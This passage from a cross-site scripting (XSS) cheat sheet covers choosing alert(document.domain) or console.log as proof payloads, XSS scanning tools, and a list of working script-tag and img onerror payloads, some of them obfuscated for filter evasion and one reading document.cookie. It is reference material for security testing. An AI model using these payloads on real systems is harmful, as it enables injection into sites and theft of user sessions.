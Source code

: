 > to safely host various types of user-generated content. Many of these sandboxes are specifically meant to isolate user-uploaded HTML, JavaScript, or Flash applets and make sure that they can't access any user data.

[sandbox-domains]:https://security.googleblog.com/2012/08/content-hosting-for-modern-web.html

For this reason, it's better to use `alert(document.domain)` or `alert(window.origin)` rather than `alert(1)` as default XSS payload in order to know in which scope the XSS is actually executing.

Better payload replacing `<script>alert(1)</script>`:

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

While `alert()` is nice for reflected XSS it can quickly become a burden for stored XSS because it requires to close the popup for each execution, so `console.log()` can be used instead to display a message in the console of the developer console (doesn't require any interaction).

Example:

```html
<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

References:

- [Google Bughunter University - XSS in sandbox domains](https://sites.google.com/site/bughunteruniversity/nonvuln/xss-in-sandbox-domain)
- [LiveOverflow Video - DO NOT USE alert(1) for XSS](https://www.youtube.com/watch?v=KHwVjzWei1c)
- [LiveOverflow blog post - DO NOT USE alert(1) for XSS](https://liveoverflow.com/do-not-use-alert-1-in-xss/)

### Tools 

Most tools are also suitable for blind XSS attacks:

* [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
* [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
* [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
* [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
* [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester

## XSS in HTML/Applications

### Common Payloads

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
</td></tr><script>alert(document.cookie);alert(2)</script><td><tr>

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```